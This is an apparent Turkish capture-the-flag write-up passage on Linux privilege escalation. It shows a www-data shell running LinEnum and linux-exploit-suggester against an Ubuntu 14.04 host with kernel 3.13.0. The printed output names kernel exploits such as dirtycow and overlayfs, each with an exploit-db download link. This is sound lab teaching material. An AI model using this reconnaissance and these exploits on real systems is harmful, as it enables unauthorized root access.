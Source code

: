Hedef sistemde hakkında bilgi toplamak üzere LinEnum.sh betiği çalıştırılır. Betik sonucunda kernel sürümünün eski olduğu tespit edilir. 

Bu kernel sürümününde yetki yükseltmek üzere kullanılabailecek exploitleri tespit etmek için   [linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester) betiği çalıştırılır. *(Betiklerin localden hedef sisteme nasıl atılacağı ile ilgili eski write-uplara bakabilirsiniz.)*

```
www-data@ubuntu:/tmp$ chmod +x suggester.sh
chmod +x suggester.sh
www-data@ubuntu:/tmp$ ./suggester.sh
./suggester.sh

Available information:

Kernel version: 3.13.0
Architecture: x86_64
Distribution: ubuntu
Distribution version: 14.04
Additional checks (CONFIG_*, sysctl entries, custom Bash commands): performed
Package listing: from current OS

Searching among:

74 kernel space exploits
45 user space exploits

Possible Exploits:

[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},[ ubuntu=16.04|14.04|12.04 ]
   Download URL: https://www.exploit-db.com/download/40611
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5|6|7,[ ubuntu=14.04|12.04 ],ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2015-1328] overlayfs

   Details: http://seclists.org/oss-sec/2015/q2/717
   Exposure: highly probable
   Tags: [ ubuntu=(12.04|14.04){kernel:3.13.0-(2|3|4|5)*-generic} ],ubuntu=(14.10|15.04){kernel:3.(13|16).0-*-generic}
   Download URL: https://www.exploit-db.com/download/37292

[+] [CVE-2017-6074] dccp

   Details: http://www.openwall.com/lists/oss-security/2017/02/22/3
   Exposure: probable
   Tags: [ ubuntu=(14.04|16.04) ]{kernel:4.4.0-62-generic}
   Download URL: https://www.exploit-db.com/download/41458
```